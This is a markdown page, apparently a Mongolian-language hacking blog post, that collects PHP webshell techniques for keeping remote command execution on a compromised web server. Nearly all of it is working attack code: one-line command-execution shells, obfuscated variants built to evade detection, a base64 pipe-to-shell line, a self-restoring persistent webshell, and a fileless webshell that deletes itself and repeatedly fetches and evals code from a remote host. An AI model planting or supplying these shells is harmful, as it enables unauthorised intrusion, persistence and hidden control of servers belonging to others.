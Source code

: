 ```yaml
---
published: false
---
```

## Webshell Hacking Techniques by fg0d

<p align="center">
<img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/hackedd.jpg">
</p>

Веб аппликэйшнрүү довтолгоо хийх үеийн **Maintaining Access** хэсэгт **Webshell** -г ашигладаг бөгөөд энэ нь тухайн серверлүү алсын зайнаас хүссэн тушаалыг биелүүлэх боломжтой болгодог.

```php
<?php system($_GET["cmd"]); ?>
<?php system($_GET[1]); ?>
<?php system("`$_GET[1]`"); ?>
<?= system($_GET[cmd]);
<?php eval($_POST[cmd]);?>
<?php echo `$_GET[1]`;
<?php echo passthru($_GET['cmd']);
<?php echo shell_exec($_GET['cmd']);
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
<script language="php">system("id"); </script>

<?php $_GET['a']($_GET['b']); ?>
// a=system&b=ls
// a=assert&b=system("ls")

<?php array_map("ass\x65rt",(array)$_REQUEST['cmd']);?>
// .php?cmd=system("ls")

<?@extract($_REQUEST);@die($f($c));?>
// .php?f=system&c=id

<?php @include($_FILES['u']['tmp_name']);  
<form action="http://x.x.x.x/shell.php" method="POST" enctype="multipart/form-data">

<?php $x=~¾¬¬º­«;$x($_GET['a']); ?>
// not backdoor (assert)
// .php?a=system("ls")

echo "{${phpinfo()}}";

echo "${system(ls)}";

echo Y2F0IGZsYWc= | base64 -d | sh
// Y2F0IGZsYWc=   =>  cat  flag гэсэн base64 шүү

echo -e "<?php passthru(\$_POST[1])?>;\r<?php echo 'A PHP Test ';" > shell.php
// cat shell.php
// <?php echo 'A PHP Test ';" ?>

echo ^<?php eval^($_POST['a']^); ?^> > a.php
// Windows echo Export a sentence

<?php fwrite(fopen("gggg.php","w"),"<?php system(\$_GET['a']);");

<?php
header('HTTP/1.1 404');
ob_start();
phpinfo();
ob_end_clean();
?>

<?php 
// No echo backdoor  
// e.g. ?pass=file_get_contents('http://kaibro.tw/test')
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();
?>

<?=
// Webshell without alphanumeric
$💩 = '[[[[@@' ^ '("(/%-';
$💩(('@@['^'#!/')." /????");

A=fl;B=ag;cat $A$B
```

## Webshell resident memory

```php
<?php
    ignore_user_abort(true);  // Ignore disconnection
    set_time_limit(0);  // Set no upper limit of execution time
    $file = 'shell.php';
    $code = '<?php eval($_POST[a]);?>';
    while(md5(file_get_contents($file)) !== md5($code)) {
        if(!file_exists($file)) {
            file_put_contents($file, $code);
        }
        usleep(50);
    }
?>

```

## Fileless webshell

```php
<?php  
    unlink(__FILE__);  
    ignore_user_abort(true);  
    set_time_limit(0);  
    $remote_file = 'http://xxx/xxx.txt';  
    while($code = file_get_contents($remote_file)){  
        @eval($code);  
        sleep(5);  
    };  

?>  
```


